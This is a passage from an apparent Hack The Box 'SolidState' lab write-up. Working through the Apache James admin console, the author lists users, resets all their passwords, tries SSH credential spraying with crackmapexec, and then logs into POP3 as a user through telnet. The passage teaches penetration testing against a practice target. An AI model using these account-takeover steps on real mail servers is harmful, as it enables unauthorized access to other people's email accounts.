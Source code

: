 ```python
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

We have a `listusers` command which can be useful.
```python
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

We could now use another command called setpassword to set the password of all users from here.
```python
setpassword james PassW0rd
Password for james reset
setpassword thomas PassW0rd
Password for thomas reset
setpassword john PassW0rd
Password for john reset
setpassword mindy PassW0rd
Password for mindy reset
setpassword mailadmin PassW0rd
Password for mailadmin reset
```

We could now use `crackmapexec` to see if we are able to successfully change the passwords of the user and can SSH into the box with the new creds.
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/solidstate]
└──╼ # crackmapexec ssh 10.10.10.51 -u users -p PassW0rd
SSH         10.10.10.51     22     10.10.10.51      [*] SSH-2.0-OpenSSH_7.4p1 Debian-10+deb9u1
SSH         10.10.10.51     22     10.10.10.51      [-] james:PassW0rd Authentication failed.
SSH         10.10.10.51     22     10.10.10.51      [-] thomas:PassW0rd Authentication failed.
SSH         10.10.10.51     22     10.10.10.51      [-] john:PassW0rd Authentication failed.
SSH         10.10.10.51     22     10.10.10.51      [-] mindy:PassW0rd Authentication failed.
SSH         10.10.10.51     22     10.10.10.51      [-] mailadmin:PassW0rd Authentication failed.
```
And, Apparently not...

## POP3 Enumeration
We could now try to enumerate the POP3 Server on port `110/tcp`
```python
┌─[Magisk@Xyan1d3]─[10.10.14.9]─[~/htb/solidstate]
└──╼ # telnet 10.10.10.51 110
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS PassW0rd
+OK Welcome john
STAT
+OK 1 743
```